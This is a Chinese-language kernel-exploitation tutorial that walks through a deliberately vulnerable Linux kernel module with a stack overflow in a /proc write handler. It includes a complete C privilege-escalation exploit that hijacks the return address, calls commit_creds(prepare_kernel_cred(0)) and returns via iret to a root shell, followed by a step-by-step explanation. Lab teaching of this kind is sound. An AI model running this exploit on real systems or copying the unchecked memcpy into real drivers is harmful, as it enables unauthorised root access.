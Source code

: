 # 新手玩转Linux Kernel漏洞之Kernel_Stack_Buffer_Overflow

### 序言
> &nbsp;&nbsp;&nbsp;&nbsp;这是`Linux`内核漏洞入门的第二篇, 由于其他大佬已经将整个提权流程将的很清楚, 此处不再赘述, 本文说一些其他大佬没讲到的地方--`exp`的解读．

### 驱动代码
*提醒*: 关闭内核`canary`的保护, 将`.config`的`CONFIG_CC_STACKPROTECTOR=y`改为`CONFIG_CC_STACKPROTECTOR=n`,重新编译.
```c
/*
 * stack_smashing.c
 */
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

int bug2_write(struct file *file,const char *buf,unsigned long len)
{
	char localbuf[8];
	memcpy(localbuf,buf,len); //vulnerability
	return len;
}

static int __init stack_smashing_init(void)
{
	printk(KERN_ALERT "stack_smashing driver init!\n");
	create_proc_entry("bug2",0666,0)->write_proc = bug2_write;
	return 0;
}

static void __exit stack_smashing_exit(void)
{
	printk(KERN_ALERT "stack_smashing driver exit!\n");
}

module_init(stack_smashing_init);
module_exit(stack_smashing_exit);
```
*Makefile*
```bash
obj-m := stack_smashing.o  
KERNELDR := ~/linux_kernel/linux-2.6.32.1  #内核代码根目录
PWD := $(shell pwd)  
modules:  
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules  
moduels_install:  
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules_install  
clean:  
	rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions

```
### EXP
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>

struct trap_frame {
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));

struct trap_frame tf;

void get_shell(void)
{
    execl("/bin/sh", "sh", NULL);
}

void init_tf_work(void)
{
    asm("pushl %cs; popl tf+4;" // set cs
        "pushfl; popl tf+8;" // set eflags
        "pushl %esp; popl tf+12;"
        "pushl %ss; popl tf+16;");
    tf.eip = &get_shell;
    tf.esp -= 1024;
}
#define KERNCALL __attribute__((regparm(3)))
void *(*prepare_kernel_cred)(void *) KERNCALL = (void *) 0xc1057120;
void *(*commit_creds)(void *) KERNCALL = (void *) 0xc1056f80;

void payload(void)
{
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf, %esp;"
        "iret;");
}

int main(void)
{
    char buf[24];
    memset(buf, 'A', 24);
    *((void **)(buf+20)) = &payload; // set eip to payload
    init_tf_work();
    int fd = open("/proc/bug2", O_WRONLY);
    // exploit
    write(fd, buf, sizeof(buf));
    return 0;
}
```
### 解读
*0.知识准备*
> 看懂这篇`exp`之前, 需要一些知识储备. 请前往[指针解疑](https://blog.csdn.net/qq_33528164/article/details/80470620)学习

*1. main*
```c
 *((void **)(buf+20)) = &payload; // 劫持eip
  init_tf_work();                 // 初始一个iret返回的内容组
  /*
   * tf = eip = get_shell
   * tf + 0x4 = cs
   * tf + 0x8 = eflag
   * tf + 0xc = esp
   * tf + 0x10 = ss
   * tf.esp -= unused part of stack
   */
```
*2. iret*
> &nbsp;&nbsp;&nbsp;&nbsp;当使用IRET指令返回到相同保护级别的任务时，IRET会从堆栈弹出代码段选择子及指令指针分别到CS与IP寄存器，并弹出标志寄存器内容到EFLAGS寄存器.
> &nbsp;&nbsp;&nbsp;&nbsp;当使用IRET指令返回到一个不同的保护级别时，IRET不仅会从堆栈弹出以上内容，还会弹出堆栈段选择子及堆栈指针分别到SS与SP寄存器.

*3. 执行`payload`函数*
```c
void payload(void)
{
    commit_creds(prepare_kernel_cred(0));
    /*
     *prepare_kernel_cred(0)--> 模拟内核传递参数方式, 使用寄存器传递.
     *commit_creds 同上,
     */
    asm("mov $tf, %esp;"
        "iret;");
    /*
     * 将构造好的内容赋值给esp
     * iret -> 触发漏洞, eip = get_shell
     */
}
```
*4. get root*
> 总体思路: 将进程提权为`root`进程, 获取一个`root shell`

![result02](./02.png)
### 相关链接
[bestwing](http://bestwing.me/2017/04/10/write-kernel-exploits-2/)
[BruceFan](http://pwn4.fun/2017/04/20/Linux%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%EF%BC%88%E4%B8%89%EF%BC%89Kernel-Stack-Buffer-Overflow/)
[文件下载]()
[外文的PDF]()
